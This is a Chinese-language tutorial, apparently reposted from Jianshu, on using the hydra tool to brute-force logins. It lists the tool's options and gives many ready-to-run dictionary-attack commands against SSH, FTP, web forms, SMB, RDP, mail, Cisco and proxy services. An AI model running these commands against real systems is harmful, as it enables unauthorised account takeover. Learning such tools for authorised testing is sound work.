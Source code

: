 # hydra简单使用

#### **[本文转载于CSDN]([hydra的使用教程 - 简书 (jianshu.com)](https://www.jianshu.com/p/abe573b057fb))**



**先列出hydra的参数：**

-s PORT 可通过这个参数指定非默认端口。

-l LOGIN 指定破解的用户，对特定用户破解。

-L FILE 指定用户名字典。

-p PASS 小写，指定密码破解，少用，一般是采用密码字典。

-P FILE 大写，指定密码字典。

-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。

-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。

-M FILE 指定目标列表文件一行一条。

-o FILE 指定结果输出文件。

-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。

-t TASKS 同时运行的线程数，默认为16。

-w TIME 设置最大超时的时间，单位秒，默认是30s。

-v / -V 显示详细过程。

server 目标ip



service 指定服务名，支持的服务和协议：

```
telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等
```

。



OPT 可选项

**使用教程如下：**

1.手动创建用户名字典和密码字典，这里只是为了演示，只加了几个用户名和弱口令。真正破解时，需要利用密码字典生成器生成强大的字典。

![img](https://upload-images.jianshu.io/upload_images/18666744-c90684b479fc6354.png?imageMogr2/auto-orient/strip|imageView2/2/w/715/format/webp)

2.破解ssh：

\# hydra -L username.txt -P password.txt -t 1 -vV -ens 192.168.60.117 ssh

其中192.168.60.117是想要破解的电脑IP

![img](https://upload-images.jianshu.io/upload_images/18666744-cea628b826677ae2.png?imageMogr2/auto-orient/strip|imageView2/2/w/866/format/webp)

破解成功，直接显示结果。

![img](https://upload-images.jianshu.io/upload_images/18666744-c1fdb82a98ff373c.png?imageMogr2/auto-orient/strip|imageView2/2/w/912/format/webp)

其它实例：

1.破解ssh：

\# hydra -l 用户名 -p 密码字典 -t 线程-vV -e ns ip ssh

\# hydra -l 用户名 -p 密码字典 -t 线程-o save.log -vV ip ssh

2.

破解ftp：

\# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

\# hydra ip ftp -l 用户名 -P 密码字典-e ns -vV

3.get

方式提交，破解web登录：

\# hydra -l 用户名 -p 密码字典 -t 线程-vV -e ns ip http-get /admin/

\# hydra -l 用户名 -p 密码字典 -t 线程-vV -e ns -f ip http-get /admin/index.php

4.post

方式提交，破解web登录：

\# hydra -l 用户名 -P 密码字典-s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"

\# hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）

5.

破解https：

\# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6.

破解teamspeak：

\# hydra -l 用户名 -P 密码字典 -s 端口号-vV ip teamspeak

7.

破解cisco：

\# hydra -P pass.txt 10.36.16.18 cisco

\# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8.

破解smb：

\# hydra -l administrator -P top100.txt 192.168.0.102 smb

9.

破解pop3：

\# hydra -l muts -P pass.txt my.pop3.mail pop3

10.

破解rdp：

\# hydra 192.168.0.102 rdp -l administrator -P top100.txt -V

11.

破解http-proxy：

\# hydra -l admin -P pass.txt http-proxy://10.36.16.18

12.

破解imap：

\# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN

\# hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

此工具强大之处远多于以上测试，其密码能否破解关键在于强大的字典，对于社工型渗透来说，有时能够得到事半功倍的效果.

